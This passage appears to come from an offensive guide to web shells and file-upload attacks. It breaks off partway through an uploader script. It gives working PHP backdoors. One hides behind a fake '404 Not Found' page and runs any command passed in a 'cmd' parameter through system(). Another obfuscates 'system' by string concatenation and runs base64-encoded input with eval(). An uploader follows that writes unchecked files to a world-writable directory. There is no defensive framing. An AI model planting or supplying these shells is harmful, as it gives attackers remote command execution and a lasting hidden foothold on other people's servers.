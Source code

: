 ```php
```

### 5.3 Full Featured Web Shell
```php
<?php
// full_shell.php
error_reporting(0);
echo "<html><head><title>404 Not Found</title></head><body>";
echo "<h1>Not Found</h1><p>The requested URL was not found on this server.</p>";

if(isset($_GET['cmd']) || isset($_POST['cmd'])) {
    $cmd = isset($_GET['cmd']) ? $_GET['cmd'] : $_POST['cmd'];
    echo "<pre>";
    system($cmd);
    echo "</pre>";
}

if(isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "File uploaded: " . $_FILES['file']['name'];
}

echo "</body></html>";
?>
```

### 5.4 Obfuscated Shell
```php
<?php
// obfuscated_shell.php
$f = 's'.'y'.'s'.'t'.'e'.'m';
if(isset($_GET['c'])) {
    $f($_GET['c']);
}

// Base64 encoded alternative
if(isset($_GET['x'])) {
    eval(base64_decode($_GET['x']));
}
?>
```

## 6. AUTOMATED UPLOAD SCRIPTS

### 6.1 PHP Uploader
```php
<?php
// uploader.php
$upload_dir = "uploads/";

if(!is_dir($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

if(isset($_FILES['file'])) {
    $filename = $_FILES['file']['name'];
    $temp_file = $_FILES['file']['tmp_name'];
    $target_file = $upload_dir . $filename;
    
    if(move_uploaded_file($temp_file, $target_file)) {
        echo "File uploaded: " . $target_file . "<br>";
        echo "<a href='$target_file'>Access File</a><br>";
        
```